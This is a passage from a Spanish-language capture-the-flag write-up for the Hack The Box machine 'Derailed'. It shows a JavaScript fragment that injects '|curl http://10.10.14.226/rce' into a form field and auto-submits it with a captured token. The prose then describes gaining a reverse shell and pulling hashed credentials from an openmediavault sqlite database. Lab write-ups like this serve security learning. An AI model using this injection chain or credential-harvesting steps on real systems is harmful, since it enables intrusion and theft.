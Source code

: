 ```sh
    document.getElementById('badform').elements.report_log.value = '|curl http://10.10.14.226/rce';
    document.getElementById('badform').elements.authenticity_token.value = token;
    document.getElementById('badform').submit();
}, 3000);
```

Después de esperar un minuto a que el usuario administrador haga click en nuestro reporte, conseguimos en nuestro servicio HTTP la confirmación de la ejecución remota de comandos.

![](/assets/img/HTB/Derailed/xss2rce.png)

Después de esto, usamos una reverse shell y conseguimos una consola en el equipo

![](/assets/img/HTB/Derailed/shell.png)

# Escalada de Privilegios

Enumerando un poco el directorio donde aparecemos, nos fijamos que hay un directorio `openmediavault`

![](/assets/img/HTB/Derailed/omv.png)

En la carpeta `db`, hay un archivo sqlite3, donde podemos encontrar las credenciales hasheadas del usuario `openmediavault-opengui`

![](/assets/img/HTB/Derailed/john.png)
